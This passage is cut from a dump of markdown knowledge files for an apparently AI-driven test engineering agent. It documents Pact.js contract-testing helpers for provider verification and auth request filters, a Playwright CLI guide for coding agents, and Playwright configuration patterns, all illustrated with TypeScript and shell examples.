- `contract-testing.md` — foundational contract testing patterns (raw Pact.js approach)
- `test-levels-framework.md` — where contract tests fit in the testing pyramid

## Anti-Patterns

### Wrong: Manual VerifierOptions assembly when pactjs-utils is available

```typescript
// ❌ Don't assemble VerifierOptions manually
const opts: VerifierOptions = {
  provider: 'my-api',
  providerBaseUrl: 'http://localhost:3001',
  pactBrokerUrl: process.env.PACT_BROKER_BASE_URL,
  pactBrokerToken: process.env.PACT_BROKER_TOKEN,
  publishVerificationResult: process.env.CI === 'true',
  providerVersion: process.env.GIT_SHA || 'dev',
  consumerVersionSelectors: [{ mainBranch: true }, { deployedOrReleased: true }],
  stateHandlers: {
    /* ... */
  },
  requestFilter: (req, res, next) => {
    /* ... */
  },
  // ... 20 more lines
};
```

### Right: Use buildVerifierOptions

```typescript
// ✅ Single call handles all configuration
const opts = buildVerifierOptions({
  provider: 'my-api',
  port: '3001',
  includeMainAndDeployed: true,
  stateHandlers: {
    /* ... */
  },
  requestFilter: createRequestFilter({ tokenGenerator: () => 'token' }),
});
```

### Wrong: Importing raw Pact types for JsonMap conversion

```typescript
// ❌ Manual JsonMap casting
import type { JsonMap } from '@pact-foundation/pact';

provider.given('user exists', { id: 1 as unknown as JsonMap['id'] });
```

### Right: Use createProviderState

```typescript
// ✅ Automatic type conversion
import { createProviderState } from '@seontechnologies/pactjs-utils';

provider.given(...createProviderState({ name: 'user exists', params: { id: 1 } }));
```

_Source: @seontechnologies/pactjs-utils library, pactjs-utils README, pact-js-example-provider workflows_
```

## File: `src/agents/bmad-tea/resources/knowledge/pactjs-utils-provider-verifier.md`
```markdown
# Pact.js Utils Provider Verifier

## Principle

Use `buildVerifierOptions`, `buildMessageVerifierOptions`, `handlePactBrokerUrlAndSelectors`, and `getProviderVersionTags` from `@seontechnologies/pactjs-utils` to assemble complete provider verification configuration in a single call. These utilities handle local/remote flow detection, broker URL resolution, consumer version selector strategy, and CI-aware version tagging. The caller controls breaking change behavior via the required `includeMainAndDeployed` parameter.

## Rationale

### Problems with manual VerifierOptions

- **30+ lines of scattered config**: Assembling `VerifierOptions` manually requires broker URL, token, selectors, state handlers, request filters, version info, publish flags — all in one object
- **Environment variable logic**: Different env vars for local vs remote, CI vs local dev, breaking change vs normal flow
- **Consumer version selector complexity**: Choosing between `mainBranch`, `deployedOrReleased`, `matchingBranch`, and `includeMainAndDeployed` requires understanding Pact Broker semantics
- **Breaking change coordination**: When a provider intentionally breaks a contract, manual selector switching is error-prone
- **Cross-execution protection**: `PACT_PAYLOAD_URL` webhook payloads need special handling to verify only the triggering pact

### Solutions

- **`buildVerifierOptions`**: Single function that reads env vars, selects the right flow, and returns complete `VerifierOptions`
- **`buildMessageVerifierOptions`**: Same as above for message/Kafka provider verification
- **`handlePactBrokerUrlAndSelectors`**: Pure function for broker URL + selector resolution (used internally, also exported for advanced use)
- **`getProviderVersionTags`**: Extracts CI branch/tag info from environment for provider version tagging

## Pattern Examples

### Example 1: HTTP Provider Verification (Remote Flow)

```typescript
import { Verifier } from '@pact-foundation/pact';
import { buildVerifierOptions, createRequestFilter } from '@seontechnologies/pactjs-utils';
import type { StateHandlers } from '@seontechnologies/pactjs-utils';

const stateHandlers: StateHandlers = {
  'movie with id 1 exists': {
    setup: async (params) => {
      await db.seed({ movies: [{ id: params?.id ?? 1, name: 'Inception' }] });
    },
    teardown: async () => {
      await db.clean('movies');
    },
  },
  'no movies exist': async () => {
    await db.clean('movies');
  },
};

// buildVerifierOptions reads these env vars automatically:
// - PACT_BROKER_BASE_URL (broker URL)
// - PACT_BROKER_TOKEN (broker auth)
// - PACT_PAYLOAD_URL (webhook trigger — cross-execution protection)
// - PACT_BREAKING_CHANGE (if "true", uses includeMainAndDeployed selectors)
// - GITHUB_SHA (provider version)
// - CI (publish verification results if "true")

const opts = buildVerifierOptions({
  provider: 'SampleMoviesAPI',
  port: '3001',
  includeMainAndDeployed: process.env.PACT_BREAKING_CHANGE !== 'true',
  stateHandlers,
  requestFilter: createRequestFilter({
    tokenGenerator: () => process.env.TEST_AUTH_TOKEN ?? 'test-token',
  }),
});

await new Verifier(opts).verifyProvider();
```

**Key Points**:

- Set `PACT_BROKER_BASE_URL` and `PACT_BROKER_TOKEN` as env vars — `buildVerifierOptions` reads them automatically
- `port` is a string (e.g., `'3001'`) — the function builds `providerBaseUrl: http://localhost:${port}` internally
- `includeMainAndDeployed` is **required** — set `true` for normal flow, `false` for breaking changes
- State handlers support both simple functions and `{ setup, teardown }` objects
- `params` in state handlers correspond to the `JsonMap` from consumer's `createProviderState`
- Verification results are published by default (`publishVerificationResult` defaults to `true`)

### Example 2: Local Flow (Monorepo, No Broker)

```typescript
import { Verifier } from '@pact-foundation/pact';
import { buildVerifierOptions } from '@seontechnologies/pactjs-utils';

// When PACT_BROKER_BASE_URL is NOT set, buildVerifierOptions
// falls back to local pact file verification
const opts = buildVerifierOptions({
  provider: 'SampleMoviesAPI',
  port: '3001',
  includeMainAndDeployed: true,
  // Specify local pact files directly — skips broker entirely
  pactUrls: ['./pacts/movie-web-SampleMoviesAPI.json'],
  stateHandlers: {
    'movie exists': async (params) => {
      await db.seed({ movies: [{ id: params?.id }] });
    },
  },
});

await new Verifier(opts).verifyProvider();
```

### Example 3: Message Provider Verification (Kafka/Async)

```typescript
import { Verifier } from '@pact-foundation/pact';
import { buildMessageVerifierOptions } from '@seontechnologies/pactjs-utils';

const opts = buildMessageVerifierOptions({
  provider: 'OrderEventsProducer',
  includeMainAndDeployed: process.env.PACT_BREAKING_CHANGE !== 'true',
  // Message handlers return the message content that the provider would produce
  messageProviders: {
    'an order created event': async () => ({
      orderId: 'order-123',
      userId: 'user-456',
      items: [{ productId: 'prod-789', quantity: 2 }],
      createdAt: new Date().toISOString(),
    }),
    'an order cancelled event': async () => ({
      orderId: 'order-123',
      reason: 'customer_request',
      cancelledAt: new Date().toISOString(),
    }),
  },
  stateHandlers: {
    'order exists': async (params) => {
      await db.seed({ orders: [{ id: params?.orderId }] });
    },
  },
});

await new Verifier(opts).verifyProvider();
```

**Key Points**:

- `buildMessageVerifierOptions` adds `messageProviders` to the verifier config
- Each message provider function returns the expected message payload
- State handlers work the same as HTTP verification
- Broker integration works identically (same env vars)

### Example 4: Breaking Change Coordination

```typescript
// When a provider intentionally introduces a breaking change:
//
// 1. Set PACT_BREAKING_CHANGE=true in CI environment
// 2. Your test reads the env var and passes includeMainAndDeployed: false
//    to buildVerifierOptions — this verifies ONLY against the matching
//    branch, skipping main/deployed consumers that would fail
// 3. Coordinate with consumer team to update their pact on a matching branch
// 4. Remove PACT_BREAKING_CHANGE flag after consumer updates

// In CI environment (.github/workflows/provider-verify.yml):
// env:
//   PACT_BREAKING_CHANGE: 'true'

// Your provider test code reads the env var:
const isBreakingChange = process.env.PACT_BREAKING_CHANGE === 'true';

const opts = buildVerifierOptions({
  provider: 'SampleMoviesAPI',
  port: '3001',
  includeMainAndDeployed: !isBreakingChange, // false during breaking changes
  stateHandlers: {
    /* ... */
  },
});
// When includeMainAndDeployed is false (breaking change):
//   selectors = [{ matchingBranch: true }]
// When includeMainAndDeployed is true (normal):
//   selectors = [{ matchingBranch: true }, { mainBranch: true }, { deployedOrReleased: true }]
```

### Example 5: handlePactBrokerUrlAndSelectors (Advanced)

```typescript
import { handlePactBrokerUrlAndSelectors } from '@seontechnologies/pactjs-utils';
import type { VerifierOptions } from '@pact-foundation/pact';

// For advanced use cases — mutates the options object in-place (returns void)
const options: VerifierOptions = {
  provider: 'SampleMoviesAPI',
  providerBaseUrl: 'http://localhost:3001',
};

handlePactBrokerUrlAndSelectors({
  pactPayloadUrl: process.env.PACT_PAYLOAD_URL,
  pactBrokerUrl: process.env.PACT_BROKER_BASE_URL,
  consumer: undefined, // or specific consumer name
  includeMainAndDeployed: true,
  options, // mutated in-place: sets pactBrokerUrl, consumerVersionSelectors, or pactUrls
});

// After call, options has been mutated with:
// - options.pactBrokerUrl (from pactBrokerUrl param)
// - options.consumerVersionSelectors (based on includeMainAndDeployed)
// OR if pactPayloadUrl matches: options.pactUrls = [pactPayloadUrl]
```

**Note**: `handlePactBrokerUrlAndSelectors` is called internally by `buildVerifierOptions`. You rarely need it directly — use it only for advanced custom verifier assembly.

### Example 6: getProviderVersionTags

```typescript
import { getProviderVersionTags } from '@seontechnologies/pactjs-utils';

// Extracts version tags from CI environment
const tags = getProviderVersionTags();

// In GitHub Actions on branch "feature/add-movies" (non-breaking):
//   tags = ['dev', 'feature/add-movies']
//
// In GitHub Actions on main branch (non-breaking):
//   tags = ['dev', 'main']
//
// In GitHub Actions with PACT_BREAKING_CHANGE=true:
//   tags = ['feature/add-movies']  (no 'dev' tag)
//
// Locally (no CI):
//   tags = ['local']
```

## Environment Variables Reference

| Variable               | Required        | Description                                                                                                                           | Default     |
| ---------------------- | --------------- | ------------------------------------------------------------------------------------------------------------------------------------- | ----------- |
| `PACT_BROKER_BASE_URL` | For remote flow | Pact Broker / PactFlow URL                                                                                                            | —           |
| `PACT_BROKER_TOKEN`    | For remote flow | API token for broker authentication                                                                                                   | —           |
| `GITHUB_SHA`           | Recommended     | Provider version for verification result publishing (auto-set by GitHub Actions)                                                      | `'unknown'` |
| `GITHUB_BRANCH`        | Recommended     | Branch name for provider version branch and version tags (**not auto-set** — define as `${{ github.head_ref \|\| github.ref_name }}`) | `'main'`    |
| `PACT_PAYLOAD_URL`     | Optional        | Webhook payload URL — triggers verification of specific pact only                                                                     | —           |
| `PACT_BREAKING_CHANGE` | Optional        | Set to `"true"` to use breaking change selector strategy                                                                              | `'false'`   |
| `CI`                   | Auto-detected   | When `"true"`, enables verification result publishing                                                                                 | —           |

## Key Points

- **Flow auto-detection**: If `PACT_BROKER_BASE_URL` is set → remote flow; otherwise → local flow (requires `pactUrls`)
- **`port` is a string**: Pass port number as string (e.g., `'3001'`); function builds `http://localhost:${port}` internally
- **`includeMainAndDeployed` is required**: `true` = verify matchingBranch + mainBranch + deployedOrReleased; `false` = verify matchingBranch only (for breaking changes)
- **Selector strategy**: Normal flow (`includeMainAndDeployed: true`) includes all selectors; breaking change flow (`false`) includes only `matchingBranch`
- **Webhook support**: `PACT_PAYLOAD_URL` takes precedence — verifies only the specific pact that triggered the webhook
- **State handler types**: Both `async (params) => void` and `{ setup: async (params) => void, teardown: async () => void }` are supported
- **Version publishing**: Verification results are published by default (`publishVerificationResult` defaults to `true`)

## Related Fragments

- `pactjs-utils-overview.md` — installation, decision tree, design philosophy
- `pactjs-utils-consumer-helpers.md` — consumer-side state parameter creation
- `pactjs-utils-request-filter.md` — auth injection for provider verification
- `contract-testing.md` — foundational patterns with raw Pact.js

## Anti-Patterns

### Wrong: Manual broker URL and selector assembly

```typescript
// ❌ Manual environment variable handling
const opts: VerifierOptions = {
  provider: 'my-api',
  providerBaseUrl: 'http://localhost:3001',
  pactBrokerUrl: process.env.PACT_BROKER_BASE_URL,
  pactBrokerToken: process.env.PACT_BROKER_TOKEN,
  publishVerificationResult: process.env.CI === 'true',
  providerVersion: process.env.GIT_SHA || process.env.GITHUB_SHA || 'dev',
  providerVersionBranch: process.env.GITHUB_HEAD_REF || process.env.GITHUB_REF_NAME,
  consumerVersionSelectors:
    process.env.PACT_BREAKING_CHANGE === 'true'
      ? [{ matchingBranch: true }]
      : [{ matchingBranch: true }, { mainBranch: true }, { deployedOrReleased: true }],
  pactUrls: process.env.PACT_PAYLOAD_URL ? [process.env.PACT_PAYLOAD_URL] : undefined,
  stateHandlers: {
    /* ... */
  },
  requestFilter: (req, res, next) => {
    req.headers['authorization'] = `Bearer ${process.env.TEST_TOKEN}`;
    next();
  },
};
```

### Right: Use buildVerifierOptions

```typescript
// ✅ All env var logic handled internally
const opts = buildVerifierOptions({
  provider: 'my-api',
  port: '3001',
  includeMainAndDeployed: process.env.PACT_BREAKING_CHANGE !== 'true',
  stateHandlers: {
    /* ... */
  },
  requestFilter: createRequestFilter({
    tokenGenerator: () => process.env.TEST_TOKEN ?? 'test-token',
  }),
});
```

### Wrong: Hardcoding consumer version selectors

```typescript
// ❌ Hardcoded selectors — breaks when flow changes
consumerVersionSelectors: [{ mainBranch: true }, { deployedOrReleased: true }],
```

### Right: Let buildVerifierOptions choose selectors

```typescript
// ✅ Selector strategy adapts to PACT_BREAKING_CHANGE env var
const opts = buildVerifierOptions({
  /* ... */
});
// Selectors chosen automatically based on environment
```

_Source: @seontechnologies/pactjs-utils provider-verifier module, pact-js-example-provider CI workflows_
```

## File: `src/agents/bmad-tea/resources/knowledge/pactjs-utils-request-filter.md`
```markdown
# Pact.js Utils Request Filter

## Principle

Use `createRequestFilter` and `noOpRequestFilter` from `@seontechnologies/pactjs-utils` to inject authentication headers during provider verification. The pluggable token generator pattern prevents double-Bearer bugs and separates auth concerns from verification logic.

## Rationale

### Problems with manual request filters

- **Express type gymnastics**: Pact's `requestFilter` expects `(req, res, next) => void` with Express-compatible types — but Pact doesn't re-export these types
- **Double-Bearer bug**: Easy to write `Authorization: Bearer Bearer ${token}` when the token generator already includes the prefix
- **Inline complexity**: Auth logic mixed with verifier config makes tests harder to read
- **No-op boilerplate**: Providers without auth still need a pass-through function or `undefined`

### Solutions

- **`createRequestFilter`**: Accepts `{ tokenGenerator: () => string }` — generator returns raw token value synchronously, filter adds `Bearer ` prefix
- **`noOpRequestFilter`**: Pre-built pass-through for providers without auth requirements
- **Bearer prefix contract**: `tokenGenerator` returns raw value (e.g., `"abc123"`), filter always adds `"Bearer "` — impossible to double-prefix

## Pattern Examples

### Example 1: Basic Auth Injection

```typescript
import { buildVerifierOptions, createRequestFilter } from '@seontechnologies/pactjs-utils';

const opts = buildVerifierOptions({
  provider: 'SampleMoviesAPI',
  port: '3001',
  includeMainAndDeployed: true,
  stateHandlers: {
    /* ... */
  },
  requestFilter: createRequestFilter({
    // tokenGenerator returns raw token — filter adds "Bearer " prefix
    tokenGenerator: () => 'test-auth-token-123',
  }),
});

// Every request during verification will have:
// Authorization: Bearer test-auth-token-123
```

**Key Points**:

- `tokenGenerator` is **synchronous** (`() => string`) — if you need async token fetching, resolve the token before creating the filter
- Return the raw token value, NOT `"Bearer ..."` — the filter adds the prefix
- Filter sets `Authorization` header on every request during verification

### Example 2: Dynamic Token (Pre-resolved)

```typescript
import { createRequestFilter } from '@seontechnologies/pactjs-utils';

// Since tokenGenerator is synchronous, fetch the token before creating the filter
let cachedToken: string;

async function setupRequestFilter() {
  const response = await fetch('http://localhost:8080/auth/token', {
    method: 'POST',
    headers: { 'Content-Type': 'application/json' },
    body: JSON.stringify({
      clientId: process.env.TEST_CLIENT_ID,
      clientSecret: process.env.TEST_CLIENT_SECRET,
    }),
  });
  const { access_token } = await response.json();
  cachedToken = access_token;
}

const requestFilter = createRequestFilter({
  tokenGenerator: () => cachedToken, // Synchronous — returns pre-fetched token
});

const opts = buildVerifierOptions({
  provider: 'SecureAPI',
  port: '3001',
  includeMainAndDeployed: true,
  stateHandlers: {
    /* ... */
  },
  requestFilter,
});
```

### Example 3: No-Auth Provider

```typescript
import { buildVerifierOptions, noOpRequestFilter } from '@seontechnologies/pactjs-utils';

// For providers that don't require authentication
const opts = buildVerifierOptions({
  provider: 'PublicAPI',
  port: '3001',
  includeMainAndDeployed: true,
  stateHandlers: {
    /* ... */
  },
  requestFilter: noOpRequestFilter,
});

// noOpRequestFilter is equivalent to: (req, res, next) => next()
```

### Example 4: Integration with buildVerifierOptions

```typescript
import { buildVerifierOptions, createRequestFilter } from '@seontechnologies/pactjs-utils';
import type { StateHandlers } from '@seontechnologies/pactjs-utils';

// Complete provider verification setup
const stateHandlers: StateHandlers = {
  'user is authenticated': async () => {
    // Auth state is handled by the request filter, not state handler
  },
  'movie exists': {
    setup: async (params) => {
      await db.seed({ movies: [{ id: params?.id }] });
    },
    teardown: async () => {
      await db.clean('movies');
    },
  },
};

const requestFilter = createRequestFilter({
  tokenGenerator: () => process.env.TEST_AUTH_TOKEN ?? 'fallback-token',
});

const opts = buildVerifierOptions({
  provider: 'SampleMoviesAPI',
  port: process.env.PORT ?? '3001',
  includeMainAndDeployed: process.env.PACT_BREAKING_CHANGE !== 'true',
  stateHandlers,
  requestFilter,
});

// Run verification
await new Verifier(opts).verifyProvider();
```

## Key Points

- **Bearer prefix contract**: `tokenGenerator` returns raw value → filter adds `"Bearer "` → impossible to double-prefix
- **Synchronous only**: `tokenGenerator` must return `string` (not `Promise<string>`) — pre-resolve async tokens before creating the filter
- **Separation of concerns**: Auth logic in `createRequestFilter`, verification logic in `buildVerifierOptions`
- **noOpRequestFilter**: Use for providers without auth — cleaner than `undefined` or inline no-op
- **Express compatible**: The returned filter matches Pact's expected `(req, res, next) => void` signature

## Related Fragments

- `pactjs-utils-overview.md` — installation, utility table, decision tree
- `pactjs-utils-provider-verifier.md` — buildVerifierOptions integration
- `contract-testing.md` — foundational patterns with raw Pact.js

## Anti-Patterns

### Wrong: Manual Bearer prefix with double-prefix risk

```typescript
// ❌ Risk of double-prefix: "Bearer Bearer token"
requestFilter: (req, res, next) => {
  const token = getToken(); // What if getToken() returns "Bearer abc123"?
  req.headers['authorization'] = `Bearer ${token}`;
  next();
};
```

### Right: Use createRequestFilter with raw token

```typescript
// ✅ tokenGenerator returns raw value — filter handles prefix
requestFilter: createRequestFilter({
  tokenGenerator: () => getToken(), // Returns "abc123", not "Bearer abc123"
});
```

### Wrong: Inline auth logic in verifier config

```typescript
// ❌ Auth logic mixed with verifier config
const opts: VerifierOptions = {
  provider: 'my-api',
  providerBaseUrl: 'http://localhost:3001',
  requestFilter: (req, res, next) => {
    const clientId = process.env.CLIENT_ID;
    const clientSecret = process.env.CLIENT_SECRET;
    // 10 lines of token fetching logic...
    req.headers['authorization'] = `Bearer ${token}`;
    next();
  },
  // ... rest of config
};
```

### Right: Separate auth into createRequestFilter

```typescript
// ✅ Clean separation — async setup wraps token fetch (CommonJS-safe)
async function setupVerifierOptions() {
  const token = await fetchAuthToken(); // Resolve async token BEFORE creating filter

  const requestFilter = createRequestFilter({
    tokenGenerator: () => token, // Synchronous — returns pre-fetched value
  });

  return buildVerifierOptions({
    provider: 'my-api',
    port: '3001',
    includeMainAndDeployed: true,
    requestFilter,
    stateHandlers: {
      /* ... */
    },
  });
}

// In tests/hooks, callers can await setupVerifierOptions():
// const opts = await setupVerifierOptions();
```

_Source: @seontechnologies/pactjs-utils request-filter module, pact-js-example-provider verification tests_
```

## File: `src/agents/bmad-tea/resources/knowledge/playwright-cli.md`
```markdown
# Playwright CLI — Browser Automation for Coding Agents

## Principle

When an AI agent needs to look at a webpage — take a snapshot, grab selectors, capture a screenshot — it shouldn't have to load thousands of tokens of DOM trees and tool schemas into its context window just to do that. Playwright CLI gives the agent a lightweight way to talk to a browser through simple shell commands, keeping the context window free for reasoning and code generation.

## Rationale

Playwright MCP is powerful, but it's heavy. Every interaction loads full accessibility trees and tool definitions into the LLM context. That's fine for complex, stateful flows where you need rich introspection. But for the common case — "open this page, tell me what's on it, take a screenshot" — it's overkill.

Playwright CLI solves this by returning concise **element references** (`e15`, `e21`) instead of full DOM dumps. The result: ~93% fewer tokens per interaction, which means the agent can run longer sessions, reason more deeply, and still have context left for your actual code.

**The trade-off is simple:**

- **CLI** = fast, lightweight, stateless — great for quick looks at pages
- **MCP** = rich, stateful, full-featured — great for complex multi-step automation

TEA uses both where each shines (see `tea_browser_automation: "auto"`).

## Prerequisites

```bash
npm install -g @playwright/cli@latest    # Install globally (Node.js 18+)
playwright-cli install --skills          # Register as an agent skill
```

The global npm install is one-time. Run `playwright-cli install --skills` from your project root to register skills in `.claude/skills/` (works with Claude Code, GitHub Copilot, and other coding agents). Agents without skills support can use the CLI directly via `playwright-cli --help`. TEA documents this during installation but does not run it for you.

## How It Works

The agent interacts with the browser through shell commands. Each command is a single, focused action:

```bash
# 1. Open a page
playwright-cli -s=tea-explore open https://app.com/login

# 2. Take a snapshot — returns element references, not DOM trees
playwright-cli -s=tea-explore snapshot
# Output: [{ref: "e15", role: "textbox", name: "Email"},
#          {ref: "e21", role: "textbox", name: "Password"},
#          {ref: "e33", role: "button", name: "Sign In"}]

# 3. Interact using those references
playwright-cli -s=tea-explore fill e15 "user@example.com"
playwright-cli -s=tea-explore fill e21 "password123"
playwright-cli -s=tea-explore click e33

# 4. Capture evidence
playwright-cli -s=tea-explore screenshot --filename=login-flow.png

# 5. Clean up
playwright-cli -s=tea-explore close
```

The `-s=tea-explore` flag scopes everything to a named session, preventing state leakage between workflows.

## What TEA Uses It For

**Selector verification** — Before generating test code, TEA can snapshot a page to see the actual labels, roles, and names of elements. Instead of guessing that a button says "Login", it knows it says "Sign In":

```
snapshot ref {role: "button", name: "Sign In"}
  → generates: page.getByRole('button', { name: 'Sign In' })
```

**Page discovery** — During `test-design` exploratory mode, TEA snapshots pages to understand what's actually there, rather than relying only on documentation.

**Evidence collection** — During `test-review`, TEA can capture screenshots, traces, and network logs as evidence without the overhead of a full MCP session.

## How CLI Relates to Playwright Utils and API Testing

CLI and playwright-utils are **complementary tools that work at different layers**:

|              | Playwright CLI                               | Playwright Utils                                 |
| ------------ | -------------------------------------------- | ------------------------------------------------ |
| **When**     | During test _generation_ (the agent uses it) | During test _execution_ (your test code uses it) |
| **What**     | Shell commands to observe your app           | Fixtures and helpers imported in test files      |
| **Examples** | `snapshot`, `screenshot`, `network`          | `apiRequest`, `auth-session`, `network-recorder` |

They work together naturally. The agent uses CLI to _understand_ your app, then generates test code that _imports_ playwright-utils:

```bash
# Agent uses CLI to observe network traffic on the dashboard page
playwright-cli -s=tea-discover open https://app.com/dashboard
playwright-cli -s=tea-discover network
# Output: GET /api/users → 200, POST /api/audit → 201, GET /api/settings → 200
playwright-cli -s=tea-discover close
```

```typescript
// Agent generates API tests using what it discovered, with playwright-utils
import { test } from '@seontechnologies/playwright-utils/api-request/fixtures';

test('GET /api/users returns user list', async ({ apiRequest }) => {
  const { status, body } = await apiRequest<User[]>({
    method: 'GET',
    path: '/api/users',
  });
  expect(status).toBe(200);
  expect(body.length).toBeGreaterThan(0);
});
```

**For pure API testing** (no UI involved), CLI doesn't add much — there's no page to snapshot. The agent generates API tests directly from documentation, specs, or code analysis using `apiRequest` and `recurse` from playwright-utils.

**For E2E testing**, CLI shines — it snapshots the page to get accurate selectors, observes network calls to understand the API contract, and captures auth flows via `state-save` that inform how tests use `auth-session`.

**Bottom line:** CLI helps the agent _write better tests_. Playwright-utils helps those tests _run reliably_.

## Session Isolation

Every CLI command targets a named session. This prevents workflows from interfering with each other:

```bash
# Workflow A uses one session
playwright-cli -s=tea-explore open https://app.com

# Workflow B uses a different session (can run in parallel)
playwright-cli -s=tea-verify open https://app.com/admin
```

For parallel safety (multiple agents on the same machine), append a unique suffix:

```bash
playwright-cli -s=tea-explore-<timestamp> open https://app.com
```

## Command Quick Reference

| What you want to do       | Command                                          |
| ------------------------- | ------------------------------------------------ |
| Open a page               | `open <url>`                                     |
| See what's on the page    | `snapshot`                                       |
| Take a screenshot         | `screenshot [--filename=path]`                   |
| Click something           | `click <ref>`                                    |
| Type into a field         | `fill <ref> <text>`                              |
| Navigate                  | `goto <url>`, `go-back`, `reload`                |
| Mock a network request    | `route <pattern> --status=200 --body='...'`      |
| Start recording a trace   | `tracing-start`                                  |
| Stop and save the trace   | `tracing-stop`                                   |
| Save auth state for reuse | `state-save auth.json`                           |
| Load saved auth state     | `state-load auth.json`                           |
| See network requests      | `network`                                        |
| Manage tabs               | `tab-list`, `tab-new`, `tab-close`, `tab-select` |
| Close the session         | `close`                                          |

## When CLI vs MCP (Auto Mode Decision)

| Situation                             | Tool | Why                                |
| ------------------------------------- | ---- | ---------------------------------- |
| "What's on this page?"                | CLI  | One-shot snapshot, no state needed |
| "Verify this selector exists"         | CLI  | Single check, minimal tokens       |
| "Capture a screenshot for evidence"   | CLI  | Stateless capture                  |
| "Walk through a multi-step wizard"    | MCP  | State carries across steps         |
| "Debug why this test fails" (healing) | MCP  | Needs rich DOM introspection       |
| "Record a drag-and-drop flow"         | MCP  | Complex interaction semantics      |

## Related Fragments

- `overview.md` — Playwright Utils installation and fixture patterns (the test code layer that CLI complements)
- `api-request.md` — Typed HTTP client for API tests (CLI discovers endpoints, apiRequest tests them)
- `api-testing-patterns.md` — Pure API test patterns (when CLI isn't needed)
- `auth-session.md` — Token management (CLI `state-save` informs auth-session usage)
- `selector-resilience.md` — Robust selector strategies (CLI verifies them against real DOM)
- `visual-debugging.md` — Trace viewer usage (CLI captures traces)
```

## File: `src/agents/bmad-tea/resources/knowledge/playwright-config.md`
```markdown
# Playwright Configuration Guardrails

## Principle

Load environment configs via a central map (`envConfigMap`), standardize timeouts (action 15s, navigation 30s, expect 10s, test 60s), emit HTML + JUnit reporters, and store artifacts under `test-results/` for CI upload. Keep `.env.example`, `.nvmrc`, and browser dependencies versioned so local and CI runs stay aligned.

## Rationale

Environment-specific configuration prevents hardcoded URLs, timeouts, and credentials from leaking into tests. A central config map with fail-fast validation catches missing environments early. Standardized timeouts reduce flakiness while remaining long enough for real-world network conditions. Consistent artifact storage (`test-results/`, `playwright-report/`) enables CI pipelines to upload failure evidence automatically. Versioned dependencies (`.nvmrc`, `package.json` browser versions) eliminate "works on my machine" issues between local and CI environments.

## Pattern Examples

### Example 1: Environment-Based Configuration

**Context**: When testing against multiple environments (local, staging, production), use a central config map that loads environment-specific settings and fails fast if `TEST_ENV` is invalid.

**Implementation**:

```typescript
// playwright.config.ts - Central config loader
import { config as dotenvConfig } from 'dotenv';
import path from 'path';

// Load .env from project root
dotenvConfig({
  path: path.resolve(__dirname, '../../.env'),
});

// Central environment config map
const envConfigMap = {
  local: require('./playwright/config/local.config').default,
  staging: require('./playwright/config/staging.config').default,
  production: require('./playwright/config/production.config').default,
};

const environment = process.env.TEST_ENV || 'local';

// Fail fast if environment not supported
if (!Object.keys(envConfigMap).includes(environment)) {
  console.error(`❌ No configuration found for environment: ${environment}`);
  console.error(`   Available environments: ${Object.keys(envConfigMap).join(', ')}`);
  process.exit(1);
}

console.log(`✅ Running tests against: ${environment.toUpperCase()}`);

export default envConfigMap[environment as keyof typeof envConfigMap];
```

```typescript
// playwright/config/base.config.ts - Shared base configuration
import { defineConfig } from '@playwright/test';
import path from 'path';

export const baseConfig = defineConfig({
  testDir: path.resolve(__dirname, '../tests'),
  outputDir: path.resolve(__dirname, '../../test-results'),
  fullyParallel: true,
  forbidOnly: !!process.env.CI,
  retries: process.env.CI ? 2 : 0,
  workers: process.env.CI ? 1 : undefined,
  reporter: [
    ['html', { outputFolder: 'playwright-report', open: 'never' }],
    ['junit', { outputFile: 'test-results/results.xml' }],
    ['list'],
  ],
  use: {
    actionTimeout: 15000,
    navigationTimeout: 30000,
    trace: 'on-first-retry',
    screenshot: 'only-on-failure',
    video: 'retain-on-failure',
  },
  globalSetup: path.resolve(__dirname, '../support/global-setup.ts'),
  timeout: 60000,
  expect: { timeout: 10000 },
});
```

```typescript
// playwright/config/local.config.ts - Local environment
import { defineConfig } from '@playwright/test';
import { baseConfig } from './base.config';

export default defineConfig({
  ...baseConfig,
  use: {
    ...baseConfig.use,
    baseURL: 'http://localhost:3000',
    video: 'off', // No video locally for speed
  },
  webServer: {
    command: 'npm run dev',
    url: 'http://localhost:3000',
    reuseExistingServer: !process.env.CI,
    timeout: 120000,
  },
});
```

```typescript
// playwright/config/staging.config.ts - Staging environment
import { defineConfig } from '@playwright/test';
import { baseConfig } from './base.config';

export default defineConfig({
  ...baseConfig,
  use: {
    ...baseConfig.use,
    baseURL: 'https://staging.example.com',
    ignoreHTTPSErrors: true, // Allow self-signed certs in staging
  },
});
```

```typescript
// playwright/config/production.config.ts - Production environment
import { defineConfig } from '@playwright/test';
import { baseConfig } from './base.config';

export default defineConfig({
  ...baseConfig,
  retries: 3, // More retries in production
  use: {
    ...baseConfig.use,
    baseURL: 'https://example.com',
    video: 'on', // Always record production failures
  },
});
```

```bash
# .env.example - Template for developers
TEST_ENV=local
API_KEY=your_api_key_here
DATABASE_URL=postgresql://localhost:5432/test_db
```

**Key Points**:

- Central `envConfigMap` prevents environment misconfiguration
- Fail-fast validation with clear error message (available envs listed)
- Base config defines shared settings, environment configs override
- `.env.example` provides template for required secrets
- `TEST_ENV=local` as default for local development
- Production config increases retries and enables video recording

### Example 2: Timeout Standards

**Context**: When tests fail due to inconsistent timeout settings, standardize timeouts across all tests: action 15s, navigation 30s, expect 10s, test 60s. Expose overrides through fixtures rather than inline literals.

**Implementation**:

```typescript
// playwright/config/base.config.ts - Standardized timeouts
import { defineConfig } from '@playwright/test';

export default defineConfig({
  // Global test timeout: 60 seconds
  timeout: 60000,

  use: {
    // Action timeout: 15 seconds (click, fill, etc.)
    actionTimeout: 15000,

    // Navigation timeout: 30 seconds (page.goto, page.reload)
    navigationTimeout: 30000,
  },

  // Expect timeout: 10 seconds (all assertions)
  expect: {
    timeout: 10000,
  },
});
```

```typescript
// playwright/support/fixtures/timeout-fixture.ts - Timeout override fixture
import { test as base } from '@playwright/test';

type TimeoutOptions = {
  extendedTimeout: (timeoutMs: number) => Promise<void>;
};

export const test = base.extend<TimeoutOptions>({
  extendedTimeout: async ({}, use, testInfo) => {
    const originalTimeout = testInfo.timeout;

    await use(async (timeoutMs: number) => {
      testInfo.setTimeout(timeoutMs);
    });

    // Restore original timeout after test
    testInfo.setTimeout(originalTimeout);
  },
});

export { expect } from '@playwright/test';
```

```typescript
// Usage in tests - Standard timeouts (implicit)
import { test, expect } from '@playwright/test';

test('user can log in', async ({ page }) => {
  await page.goto('/login'); // Uses 30s navigation timeout
  await page.fill('[data-testid="email"]', 'test@example.com'); // Uses 15s action timeout
  await page.click('[data-testid="login-button"]'); // Uses 15s action timeout

